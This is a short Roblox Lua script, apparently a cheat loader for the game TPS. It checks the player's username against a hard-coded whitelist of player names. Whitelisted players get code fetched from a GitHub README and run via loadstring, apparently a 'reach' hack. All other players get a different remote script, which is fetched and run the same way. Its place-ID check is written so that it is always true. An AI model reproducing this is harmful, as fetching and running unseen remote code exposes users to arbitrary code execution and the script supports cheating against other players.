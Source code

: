 local whitelist = {
    "ItzSwara31",
    "Arda1420",
    "harunisteaq9",
    "Tpsciawain", 
    "252531_werza",
    "AmacsizAhmet5",
    "qazztr",
    "31cihasanxd",
    "ablanidelim",
    "OyunDelisiYT6",
    "Zzz_tps2",
    "2525israfil",
    "ARDAEda1",
    "tpsciawain", --me
    "madridhayatimolmus", 
    "Alexnimo2022" -- giveaway winner
}

if table.find(whitelist, game.Players.LocalPlayer.Name) then
        local id = game.PlaceId
if id == 335760407 or 13762482705 then
game.StarterGui:SetCore("SendNotification",{
			Title = "Loading...";
			Text = "Loading will take some seconds...";
			Duration = 5;
})
    loadstring(game:HttpGet("https://raw.githubusercontent.com/ArdaAkpinar/reach/main/README.md"))()
else
    game.Players.LocalPlayer:Kick("It's not TPS SS!")
end
else
    loadstring(game:HttpGet("https://raw.githubusercontent.com/ArdaAkpinar/kicked1/main/README.md"))();
end
